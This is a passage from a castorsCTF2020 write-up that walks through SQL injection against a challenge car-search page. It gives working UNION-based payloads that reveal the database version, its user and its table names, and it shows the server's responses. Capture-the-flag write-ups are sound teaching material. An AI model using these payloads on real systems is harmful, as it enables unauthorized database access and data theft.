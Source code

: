 So, just set it to `3123248` and refresh the page.

&nbsp;
![]({{ site.baseurl }}/img/castorsCTF2020/lottery/in_home.png)
&nbsp;

The "Types of Car" dropdown leads us to one of three pages that look like
* http://web1.cybercastors.com:14435/search?id=1
* http://web1.cybercastors.com:14435/search?id=2
* http://web1.cybercastors.com:14435/search?id=3

So, the `?id=3` is suspicious, and leads to thinking potentially SQL injection. There are a ton of web resources out there that describe the telltale signs of SQL injection/some common commands/approaches, so I won't try. I will say, I did not know how to do SQL injection before this CTF, so it was simple enough to learn with this example in this case. In particular, I really liked:

* [SQL injection CTF cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sql-injection)
* [Dumping a complete DB using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [MySQL DB command reference](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)

Looking at the request in Burpsuite using the intercepter, we see it is making a request with a body of `car=Sport` or `car=Minivan` or `car=Sedan`.

So one can image the query might look something like:

```
SELECT * FROM cars WHERE car_type=<id>
```

If you send `id=CHAR(39) OR 1=1 --` (CHAR(39) is `'` but without encoding the quote as so seems to yield a MariaDB sql syntax error), you get back valid results. So it is indeed a SQL injection problem.

Sending `CHAR(39) AND 1=2 UNION SELECT version(),version(),user(),3,4 -- ` (trailing space after the `--` is **important**), we get back:

{% highlight html %}
  <tr>
    <td style="text-align:center">10.4.13-MariaDB-1:10.4.13+maria~bionic</td>
    <td style="text-align:center">3</td>
    <td style="text-align:center">root@172.18.0.3</td>
    <td style="text-align:center">4</td>
  </tr>
{% endhighlight %}

So we can use sql commands like `version()` to get information about the database running. We can try to get the list of Tables like so:

`CHAR(39) AND 1=2 UNION SELECT version(),group_concat(table_name),database(),3,4 from information_schema.tables where table_schema=database() -- `:

Which gives us:

{% highlight html %}
    <td style="text-align:center">Cars,Users</td>
    <td style="text-align:center">3</td>
    <td style="text-align:center">cars</td>
    <td style="text-align:center">4</td>
{% endhighlight %}
